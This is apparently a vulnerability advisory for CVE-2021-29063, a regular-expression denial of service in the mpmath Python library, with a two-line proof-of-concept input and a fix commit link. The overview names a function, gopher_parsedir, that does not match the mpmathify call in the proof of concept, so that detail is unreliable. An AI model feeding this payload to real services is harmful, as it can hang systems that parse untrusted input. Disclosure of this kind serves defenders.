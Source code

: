 # CVE-2021-29063
## Package

mpmath

## Overview

mpmath is Python library for arbitrary-precision floating-point arithmetic. 

Regular Expression Denial of Service (ReDOS) in Mpmath v1.0.0.

Passing specific string to gopher_parsedir may result in long excesively long evaluation by the regex used inside the function.

## Proof of Concept

```python
from mpmath import mpmathify
mpmathify("(" + "1" * 5000 + "j!")
```

## GitHub Commit

[]: https://github.com/vks/mpmath/commit/c811b37c65a4372a7ce613111d2a508c204f9833

